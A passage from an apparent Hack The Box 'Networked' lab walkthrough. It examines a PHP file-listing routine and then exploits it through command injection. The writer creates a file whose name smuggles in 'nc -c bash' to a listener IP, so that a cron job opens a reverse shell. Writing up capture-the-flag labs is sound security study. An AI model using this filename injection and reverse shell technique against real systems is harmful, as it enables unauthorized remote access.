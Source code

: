 ```php
$files = preg_grep('/^([^.])/', scandir($path));
```

I tested this on kali, and it seems that it's saving all existing files on a directory.

```php
┌──(kali㉿kali)-[~/htb/networked/backup]
└─$ php -a       
Interactive shell

php > $files = preg_grep('/^([^.])/', scandir('.'));
php > print_r($files);
Array
(
    [2] => backup.tar
    [3] => index.php
    [4] => lib.php
    [5] => photos.php
    [6] => upload.php
)
```

### Command Injection

Here's strategy;
- Create a file with name containing command line after `;`.
- Wait for the cron job to be run. (After setting up a listener)

If I put a file named `a; nc -c sh 10.10.14.7 9001; b`
For the execution option, I used `-c` instead of `-e` since we are putting this in filename.

```bash
sh-4.2$ nc -h
Ncat 7.50 ( https://nmap.org/ncat )
Usage: ncat [options] [hostname] [port]

Options taking a time assume seconds. Append 'ms' for milliseconds,
's' for seconds, 'm' for minutes, or 'h' for hours (e.g. 500ms).
...SNIP...
  -c, --sh-exec <command>    Executes the given command via /bin/sh
  -e, --exec <command>       Executes the given command
      --lua-exec <filename>  Executes the given Lua script
...SNIP...
```

I created a file with the prepared name.

```bash
sh-4.2$ touch 'a; nc -c bash 10.10.14.7 9001; b'



sh-4.2$ ls -al
ls -al
total 144
drwxrwxrwx. 2 root   root    4096 Mar 10 07:45 .
drwxr-xr-x. 4 root   root    4096 Jul  9  2019 ..
...SNIP...
-rw-rw-rw-  1 apache apache     0 Mar 10 07:45 a; nc -c bash 10.10.14.7 9001; b
-r--r--r--. 1 root   root       2 Oct 30  2018 index.html
```
